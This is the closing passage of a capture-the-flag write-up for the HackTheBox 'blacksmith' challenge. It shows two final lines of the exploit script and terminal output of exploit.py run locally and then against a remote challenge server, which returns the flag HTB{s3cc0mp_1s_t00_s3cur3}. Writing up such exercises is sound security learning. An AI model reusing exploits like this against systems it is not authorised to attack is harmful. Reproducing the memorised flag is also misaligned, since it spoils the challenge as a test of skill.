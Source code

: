 ```
flag = io.recv()
success(flag)
```

Running it locally 

```
┌──(venv)─(mark㉿haxor)-[~/…/BofLearn/Challs/HTB/blacksmith]
└─$ python2 exploit.py
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Starting local process './blacksmith': pid 365853
 
[+] FLAG{F4K3_Fl4G_F0R_T3ST1NG}
[*] Process './blacksmith' stopped with exit code -11 (SIGSEGV) (pid 365853)
```

It works now on the remote server

```
┌──(venv)─(mark㉿haxor)-[~/…/BofLearn/Challs/HTB/blacksmith]
└─$ python2 exploit.py REMOTE 46.101.11.94 30245  
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[+] Opening connection to 46.101.11.94 on port 30245: Done
 
[+] HTB{s3cc0mp_1s_t00_s3cur3}
[*] Closed connection to 46.101.11.94 port 30245
```

And we're done

<br> <br>
[Back To Home](../../index.md)

